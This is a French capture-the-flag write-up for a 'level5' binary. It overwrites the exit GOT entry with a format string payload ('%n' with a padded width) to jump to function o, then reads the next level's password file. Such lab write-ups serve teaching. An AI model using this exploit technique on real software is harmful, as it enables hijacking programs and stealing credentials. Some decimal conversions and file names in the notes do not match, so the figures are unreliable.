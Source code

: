 On a un programme avec O et N

dans la fonction N on a un call de printf et de exit, la fonction O call uniquement exit avec un fgets (protege par les attacks buffer overflow)
on recupere l'adresse de O avec info function o qui est : 0x080484a4

si on disas le exit on voit que c'est un pointer donc p *0x8049838 avec sa valeur decimal : 134513622

vu qu'on a printf comme les 2 autres exo 

python -c 'print "CCCC %x %x %x %x %x"' > /tmp/test5
cat /tmp/test | ./level5

l'adresse de exit est a la 4 eme position

donc il faut push l'adresse de o qui est : 0x080484a4 traduit en decimal : 134513622

python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/test52
cat /tmp/test52 - | ./level5

cat /home/user/level6/.pass
